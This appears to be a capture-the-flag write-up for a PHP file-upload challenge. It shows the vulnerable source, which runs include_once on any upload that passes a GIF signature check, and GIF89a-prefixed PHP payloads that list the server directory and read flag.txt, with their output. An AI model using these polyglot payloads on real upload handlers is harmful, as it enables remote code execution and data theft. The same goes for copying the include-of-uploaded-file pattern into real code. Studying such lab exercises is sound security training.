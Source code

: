 ```
<?php
$uploadedFile = sprintf('%1$s/%2$s', '/uploads', sha1($_FILES['fileToUpload']['name']) . '.gif');

if (file_exists ($uploadedFile)) { unlink ($uploadedFile); }

if ($_FILES['fileToUpload']['size'] <= 50000) {
    if (getimagesize ($_FILES['fileToUpload']['tmp_name']) !== false) {
        if (exif_imagetype($_FILES['fileToUpload']['tmp_name']) === IMAGETYPE_GIF) {
            move_uploaded_file ($_FILES['fileToUpload']['tmp_name'], $uploadedFile);
            echo '<p class="lead">Dump of <a href="/level08' . $uploadedFile . '">'. htmlentities($_FILES['fileToUpload']['name']) . '</a>:</p>';
            echo '<pre>';
            include_once($uploadedFile);
            echo '</pre>';
            unlink($uploadedFile);
        } else { echo '<p class="text-danger">The file is not a GIF</p>'; }
    } else { echo '<p class="text-danger">The file is not an image</p>'; }
} else { echo '<p class="text-danger">The file is too big</p>'; }
?>
```
+ So, in this challenge exif_imagetype function reads the first bytes of an image and checks its signature. So, we can create a php file and put the first few bytes as gif bytes.
So, I created a sample.php file and tried dumping the direcotries
```
GIF89a\00\00\E6\00
<?php print_r(scandir("./"));?> 
```
Output:
```
GIF89a\00\00\E6\00
Array
(
    [0] => .
    [1] => ..
    [2] => flag.txt
    [3] => index.php
    [4] => php-fpm.sock
    [5] => source.php
    [6] => uploads
)
```
So, lets try getting flag.txt.
```
GIF89a\00\00\E6\00
<?php echo file_get_contents("./flag.txt");?> 
```
There we got the flag: WEBSEC{BypassingImageChecksToRCE}
